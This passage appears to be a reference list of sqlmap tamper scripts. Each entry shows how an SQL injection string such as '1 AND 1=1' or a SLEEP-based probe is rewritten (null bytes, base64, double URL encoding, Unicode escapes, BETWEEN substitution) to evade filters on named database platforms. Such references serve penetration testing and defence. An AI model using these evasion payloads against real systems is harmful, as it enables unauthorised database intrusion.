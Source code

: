 example
~~~
1 AND ‘1’=’1 ==> 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871
~~~
### apostrophenullencode.py
Function: ‘ ==> %00%27
Platform: All
example
~~~
1 AND ‘1’=’1 ==> 1 AND %00%271%00%27=%00%271
~~~
### appendnullbyte.py
Function: Space ==> %00
Platform: Microsoft Access
example
1 AND 1=1 ==> 1 AND 1=1%00
### base64encode.py
Function: base64 encode
Platform: All
example
~~~
1' AND SLEEP(5)# ==> MScgQU5EIFNMRUVQKDUpIw==
~~~
### between.py
Function: > ==> NOT BETWEEN 0 AND
Platform: Mssql2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
1 AND A > B — ==> 1 AND A NOT BETWEEN 0 AND B — ```、```1 AND A = B — ==> 1 AND A BETWEEN B AND B —
~~~
### bluecoat.py
Function: Space ==> %09
Platform: MySQL 5.1, SGOS
example
~~~
SELECT id FROM users WHERE id = 1 ==> SELECT%09id FROM%09users WHERE%09id LIKE 1
~~~
### chardoubleencode.py
Function: Double url encoding
Platform: All
example
~~~
SELECT FIELD FROM%20TABLE ==> %2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545
~~~
### charencode.py
Function: url encoding
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT FIELD FROM%20TABLE ==> %53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45
~~~
### charunicodeencode.py
Function: escape code
Platform: Mssql 2000,2005、MySQL 5.1.56、PostgreSQL 9.0.3 ASP/ASP.NET
example
~~~
SELECT FIELD%20FROM TABLE ==> %u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045
~~~
